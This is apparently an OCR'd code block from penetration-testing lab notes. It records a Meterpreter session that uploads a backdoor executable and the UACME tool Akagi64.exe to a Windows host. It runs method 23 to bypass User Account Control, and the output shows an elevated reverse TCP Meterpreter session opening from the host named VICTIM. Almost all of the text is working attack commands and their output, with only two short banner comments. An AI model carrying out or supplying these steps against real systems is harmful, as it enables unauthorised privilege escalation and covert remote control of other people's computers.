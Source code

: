 ```bash



================================================================================================================================
run Akagi64.exe with key 23 on the current msf session to bypass UAC and run the backdoor with administrative privillages
================================================================================================================================
meterpreter > mkdir Temp
Creating directory: Temp
meterpreter > cd Temp 
meterpreter > upload Desktop/tools/UACME/backdoor.exe
[*] uploading  : /root/Desktop/tools/UACME/backdoor.exe -> backdoor.exe
[*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): /root/Desktop/tools/UACME/backdoor.exe -> backdoor.exe
[*] uploaded   : /root/Desktop/tools/UACME/backdoor.exe -> backdoor.exe
meterpreter > upload Desktop/tools/UACME/Akagi64.exe
[*] uploading  : /root/Desktop/tools/UACME/Akagi64.exe -> Akagi64.exe
[*] Uploaded 194.50 KiB of 194.50 KiB (100.0%): /root/Desktop/tools/UACME/Akagi64.exe -> Akagi64.exe
[*] uploaded   : /root/Desktop/tools/UACME/Akagi64.exe -> Akagi64.exe

meterpreter > shell
Process 2404 created.
Channel 4 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Temp>dir 	
dir
 Volume in drive C has no label.
 Volume Serial Number is AEDF-99BD

 Directory of C:\Temp

01/17/2024  05:52 PM    <DIR>          .
01/17/2024  05:52 PM    <DIR>          ..
01/17/2024  05:52 PM           199,168 Akagi64.exe
01/17/2024  05:52 PM            73,802 backdoor.exe
               2 File(s)        272,970 bytes
               2 Dir(s)   8,285,016,064 bytes free

C:\Temp>.\Akagi64.exe 23 C:\Temp\backdoor.exe
.\Akagi64.exe 23 C:\Temp\backdoor.exe

C:\Temp>




================================================================================================================================
we got a new meterpreter session with elevated privillages 
================================================================================================================================
[*] Started reverse TCP handler on 10.10.80.2:1234 
[*] Sending stage (175174 bytes) to 10.4.20.207
[*] Meterpreter session 1 opened (10.10.80.2:1234 -> 10.4.20.207:49402) at 2024-01-17 23:37:55 +0530

meterpreter > sysinfo
Computer        : VICTIM
```